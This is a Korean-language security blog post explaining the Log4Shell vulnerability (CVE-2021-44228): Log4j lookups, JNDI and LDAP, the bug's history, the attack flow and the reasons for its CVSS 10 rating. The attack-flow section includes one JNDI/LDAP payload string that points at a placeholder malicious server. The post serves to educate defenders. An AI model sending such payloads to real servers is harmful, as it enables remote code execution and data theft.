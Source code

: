 ```yaml
---
title: "Log4j(Log4Shell) 취약점 분석"
excerpt: "작년말을 뜨겁게 달구었던 Log4j(Log4jshell) 취약점에 대한 내용을 포스팅하려고 한다."
categories:
  - Security
tags:
  - Log4j
  - '2022'
  - Log4Shell
last_modified_at: 2022-05-21
---
```


![log4j_meme](/assets/images/2022/2022-05-21-17-24-35.png){: .align-center}

작년말을 뜨겁게 달구었던 Log4j(Log4jshell) 취약점에 대한 내용을 포스팅하려고 한다.
해당 취약점에 관하여서는 정말 많은 자료들이 포스팅되어 있고 지금 시점에 정보성으로 업데이트 하기 조금 늦었지만 그래도 직접 대응하였고 고생했던 것을 기록으로 남겨놓는 것이 의미가 있을 것 같아 남겨놓는다.

## “컴퓨터, 최악 취약점 발견”…국정원 “선제적 조치” / KBS 2021.12.11.

{% include video id="qaeLkwhHZTo" provider="youtube" %}

## Log4j?

말 그대로 Log for Java이다. Java 기반의 프로그램에서 사용하는 로깅 프레임워크로
크게 로그포맷팅/필터링/파일로 기록하는 기능으로 이루어져 있다.

|구성 모듈|주요 역할|기능|
|--------|-------|----|
|Logger|로깅 메시지를 Appender에 전달, 어느 레벨까지 Logging 을 수행할지 결정|로그 필터링|
|Appender|로그의 출력위치를 결정|로그 기록|
|Layout|로그가 어떤 형식으로 출력될 것인지 결졍|로그 포맷팅|

이러한 로깅 프레임워크가 어떻게 컴퓨터 역사상 최악의 취약점이 되었던 것일까?

## History

![jndi_lookup_plugin_support](/assets/images/2022/2022-05-22-13-23-54.png)

2017년 7월 13일 [Lookup 플러그인에 JNDI를 추가하는 이슈](https://issues.apache.org/jira/browse/LOG4J2-313){: target="_blank"}를 통해 Log4j_2.0-beta9에 최초로 취약점이 발생하게 되었다.
이후 2021년 11월 31일까지 알리바바의 클라우드 보안팀에 의해 해당 취약점이 발견되기 전까지 약 8년이라는 기간동안 해당 취약점은 방치되게 된다.

![alibaba_cloud_tweet](/assets/images/2022/2022-05-22-13-28-22.png)

### Log4j Lookups

그렇다면 Lookup 기능은 뭐고 JNDI란 무엇인가... 한번 차근차근 알아가 보자.
먼저 Lookup이란 기능은 로그에 시스템 속성의 값을 예약어를 이용해 출력할 수 있는 기능이다.

가령 아래와 같이 로그를 출력하게 된다면

```java
logger.info("This is test log for example of lookups - ${java:runtime}");
```

```java
This is test log for example of lookups - Java(TM) SE Runtime Environment (build 11.0.13+10-LTS-370) from Oracle Corporation
```

이런 식으로 출력이 되는 것이다.
아마도 로그를 남길 때 특정 IP를 사용자 명으로 변경한다던지, 로그를 남기는 환경을 동적으로 기록한다던지 하는 목적으로 필요했던 것 같다.

### JNDI(Java Naming and Directory Interface)

Log4j Lookup 기능에 JNDI 기능을 지원하게 되었다는 게 이번 취약점의 핵심이다.
JNDI는 Jva 어플리케이션에서 이름을 통해 데이터와 리소스(Java 객체 형태)를 검색하고 조회 할 수 있도록 하는 디렉토리 서비스용 Java API 이다.

예를 들어 Java 어플리케이션은 JNDI API를 사용하여 DNS로 URL 주소를 넘겨주고 IP를 받아올 수 있게 하는 기능을 지원한다.

여기서 또 의문점이 생긴다.

**디렉토리 서비스**는 무엇일까?

알다시피 디렉토리는 데이터나 프린터, 컴퓨터, 사용자 정보 등 데이터가 저장된 용기라고 보면 된다.
디렉토리 서비스는 네트워크 서비스의 일종으로 이러한 디렉토리에 접근하여 관리하는 서비스를 말한다.

우리가 흔히 아는 **AD(Active Directory)**도이러한 디렉토리 서비스의 일환이다. (회사직원들의 계정 정보, PC에 대한 정보, 보안 정책들 등)
아래에 보이는 LDAP, DNS, NIS 등이 JNDI를 통해 지원되는 디렉토리 서비스의 일부이며, **서비스 프로바이더 인터페이스**라고도 불린다.

![jndi](/assets/images/2022/2022-05-22-19-27-18.png)

이번 Log4j 취약점은 이중 LDAP을 이용하여 원격 코드 실행(RCE) 취약점을 성공시켰다.

## Attack Flow

전반적인 공격의 경로는 아래와 같다.

![log4j_attack_flow](/assets/images/2022/2022-05-22-19-28-29.png)

1. 취약한 버전의 Log4j 를 사용하는 서버로 공격 패킷을 전송한다. 가령 아래와 같은 페이로드를 가진 패킷이다.
```
${jndi:ldap://MALICIOUS_LDAP_SERVER/COMMAND}
```

2. 취약한 버전의 Log4j 를 사용하는 서버는 아래 구문을 받고 JNDI Lookup 기능을 수행하기 위해 공격자의 악의적인 LDAP 서버(Malicious LDAP Server)로 접근하게 된다.

3. 공격자의 LDAP 서버는 악의적인 커맨드를 전송한다. (이것은 악성파일 배포사이트에서 악성코드를 다운받기 위한 명령어가 될 수도 있고, 해당 서버의 데이터를 삭제하거나 탈취하는 명령어가 될 수도 있다. 위의 시나리오에서는 공격자의 악의적인 HTTP 서버를 통해 공격하는 시나리오로 두었다.)

4. 공격자의 악의적인 HTTP 서버를 통해 공격을 성공하게된다. (악성파일 다운로드 등)

## Why CVSS 10.0?

해당 취약점은 **CVSS(Common Vulnerability Scoring System)** 에서 최고 위험등급인 10.0 을 받았다. ([CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228){: target="_blank"})

*CVSS : 공격 벡터, 공격의 복잡성, 필요한 권한 등 취약점의 중요 특성들에 따라 수치화 된 점수 심각성을 표기하는 서비스(1~10)

그렇다면 해당 취약점이 왜이렇게 위험한 것일까?
아래와 같은 이유로 그러한 이유가 설명이 될 것이다.

1. 자바 기반의 소프트웨어에서 광범위하게 사용되는 라이브러리
   해당 라이브러리는 Java 기반의 소프트웨어에서 로그를 남기는 프레임워크로 매우 광범위 하게 사용되고 있다. 이 말은 공격 대상/범위가 매우 광범위하다는 것이다.
2. 공격 방법이 매우 간단하다.
   복잡한 과정없이 취약한 서버를 대상으로 패킷을 전송하는 것으로만으로도 공격이 성공한다. 공격의 난이도가 매우 쉽다는 말이다.
3. 하나의 소프트웨어는 여러 라이브러리로 구성되어 있는데, 그 중 한곳이라도 취약하면 해당 소프트웨어가 취약하다.
   Log4j 는 앞서 말했던 로그를 남기는 프레임워크로 여러 오픈소스나 소프트웨어에서 광범위하게 사용되고 있다. 때문에 취약한 버전의 Log4j를 사용하면 해당 라이브러리를 사용하는 소프트웨어는 모두 취약하다는 의미가 된다.
4. 내 서버가 이미 공격을 당했는지 분석 위해서는 Log4j 사용 시점부터 분석이 필요하다.
   앞서 말했듯이 해당 취약점은 Log4j 2.0-beta9에 추가된 업데이트로부터 파생(약 8년 전)되었기 때문에 자신이 관리하는 서버가 공격을 받은지 분석을 하기 위해서는 최대 8년의 로그를 뒤져야 할 수도 있다.

## 실습

## Reference
- [Log4j 보안 문제와 해킹 과정 재현하기 (feat. CVE-2021-44228)](https://junhyunny.github.io/information/security/log4j-vulnerability-CVE-2021-44228/){: target="_blank"}
- [아파치 로그4j 취약점에 영향 받는 Log4j Core 공개](https://www.boannews.com/media/view.asp?idx=103419){: target="_blank"}
- [Apache Log4j 취약점 분석 및 대응방안](http://www.igloosec.co.kr/BLOG_Apache%20Log4j%20%EC%B7%A8%EC%95%BD%EC%A0%90%20%EB%B6%84%EC%84%9D%20%EB%B0%8F%20%EB%8C%80%EC%9D%91%EB%B0%A9%EC%95%88?searchItem=&searchWord=&bbsCateId=1&gotoPage=1){: target="_blank"}
